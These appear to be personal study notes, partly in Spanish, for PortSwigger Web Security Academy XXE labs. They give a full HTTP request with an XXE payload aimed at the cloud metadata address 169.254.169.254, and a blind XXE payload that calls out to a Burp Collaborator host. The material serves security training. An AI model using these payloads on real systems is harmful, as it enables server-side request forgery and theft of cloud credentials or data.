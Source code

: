 ```
POST /product/stock HTTP/2
Host: 0a4300f30381a858844c05d100ba005e.web-security-academy.net
Cookie: session=xHHQ5Bygw4W73yMvI9XBqwWZqN9aizAc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a4300f30381a858844c05d100ba005e.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 180
Origin: https://0a4300f30381a858844c05d100ba005e.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Dnt: 1
Sec-Gpc: 1
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
<productId>
&xxe;
</productId>
<storeId>
1
</storeId>
</stockCheck>
```
![[Pasted image 20230814125036.png]]

![[Pasted image 20230814125142.png]]

---

# Lab 3 : Blind XXE with out-of-band interaction via XML parameter entities

Este laboratorio tiene una característica de "Comprobar existencias" que analiza la entrada XML, pero no muestra ningún valor inesperado y bloquea las solicitudes que contienen entidades externas regulares. Para resolver el laboratorio, use una entidad de parámetro para hacer que el analizador XML emita una búsqueda de DNS y una solicitud HTTP a Burp Collaborator.

```java
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://iseyaezmbw57zv1uxms07rn10s6juei3.oastify.com/TESTXXE">]>
<stockCheck>
<productId>
&xxe;
</productId>
<storeId>
1
</storeId>
</stockCheck>
```
